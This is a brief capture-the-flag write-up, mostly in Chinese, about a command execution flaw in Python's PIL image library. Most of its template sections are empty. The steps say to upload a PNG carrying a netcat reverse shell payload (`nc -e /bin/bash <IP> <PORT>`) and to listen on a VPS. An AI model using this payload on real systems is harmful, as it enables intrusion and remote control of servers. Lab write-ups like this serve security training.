 # pillow
## **【原理】**

Python PIL Module Command Execution Vulnerability

## **【目的】**

## **【环境】**

## **【工具】**

## **【步骤】**

具体漏洞细节参照以下文章：

https://paper.seebug.org/405/

https://xianzhi.aliyun.com/forum/read/2163.html

上传带payload的png，payload为`nc -e /bin/bash <IP> <PORT>`，然后在vps上`nc -l -p <PORT>`得到reverse shell。

flag在web目录下，ls可以看到。

![1](files_for_writeup/1.png)

## **【总结】**


